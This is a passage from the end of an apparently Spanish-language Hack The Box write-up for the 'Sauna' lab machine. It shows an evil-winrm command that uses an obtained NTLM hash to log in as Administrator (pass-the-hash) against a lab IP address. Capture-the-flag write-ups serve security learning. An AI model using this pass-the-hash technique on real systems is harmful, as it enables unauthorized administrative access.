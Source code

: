 Una vez obtenido el hash NTLM, podremos acceder a la cuenta **Administrator**, con el siguiente comando.

```console
evil-winrm -i 10.129.223.148 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![Admin](/assets/img/posts/HTB/sauna/Admin.png)

Good Luck! and Happy Hacking!
